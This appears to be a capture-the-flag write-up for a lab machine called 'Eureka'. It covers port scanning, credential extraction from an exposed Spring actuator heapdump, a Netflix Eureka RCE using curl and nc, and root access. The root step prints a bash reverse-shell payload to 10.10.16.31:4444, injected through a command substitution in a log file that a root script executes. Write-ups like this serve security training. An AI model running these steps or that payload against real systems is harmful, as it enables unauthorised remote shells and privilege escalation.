






# 🎣Eureka

## 🧠Summary
> Initial Nmap scan showed ports 22 (SSH) and 80 (HTTP) open. The website hosted a furniture shop. During enumeration, a suspicious /heapdump endpoint was discovered and downloaded. Extracting strings revealed credentials, which successfully worked for SSH login. Deeper exploration of the file system led to a sensitive config file containing Eureka dashboard credentials. Accessing port 8761 exposed a Spring Eureka admin panel. Using a crafted curl + nc payload inspired by a known Eureka RCE technique, a shell was obtained with a second user. Further privilege escalation was achieved by exploiting a log analyzer script, injecting a reverse shell payload into application.log. Root shell and flag were finally obtained.

## ↘️ASCII Visual
```text
[ Nmap ] → 80, 22  
      |  
      v  
[ Port 80 - Furniture site ]  
      |  
  dirsearch → /heapdump  
      |  
download + strings → creds  
      |  
      v  
[ SSH Access (user1) ]  
      |  
  explore → /var/www/web/Eureka-Sever/…/application.yaml  
      |  
  → creds for port 8761 (Eureka Dashboard)  
      |  
      v  
POST RCE payload (curl + nc)  
      |  
Decode dumped creds (CyberChef)  
      |  
[ SSH Miranda-Wise ] → user.txt  
      |  
      v  
Privilege Escalation → log_analyse.sh  
inject revshell into application.log  
      |  
[ listener ] ← root shell → root.txt
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Used dirsearch to find interesting endpoint
- Found an endpoint called actuator/heapdump
  
- Went to the endpoint to download a binary file
- Used strings command and found username and password

## 📌Loop hole
- SSH into the machine using the obtained creds
- Explored the machine and found a interesting file called application.yaml
  
- Found an open port also in the found file entered the website using the open port and found a webpage called spring eureka
  
- Found a medium post that talks about eureka RCE 👉 [Eureka-RCE](https://medium.com/@mfocuz/hacking-netflix-eureka-8e5957b2f539)
- After that wrote a custom script in bash using (nc + curl)
  
- The link to custom script 👉 [exploit.sh](./exploit.sh)
- I got the password and username the password was encrypted so used cyberchef to decode it and found the password
  
- SSH into the machine as new user and got the user flag

## 🧪Exploitation
- Used all the known prevelage escalation commands and found nothing useful so manually checked the files and found an interesting file called log_analyse.sh
- Cat the file to find that the file reads and execute the content in the file path /var/www/web/user-management-service/log/application.log
- So wrote a reverse script to opened a listner in my system
  ```bash
  echo 'HTTP Status: x[$(/bin/bash -i >& /dev/tcp/10.10.16.31/4444 0>&1)]' > /var/www/web/user-management-service/log/application.log
  ```
  > (Note:First delete th content in the file and then use the above command)
- Got the reverse shell as root and dumped the root flag 🚩
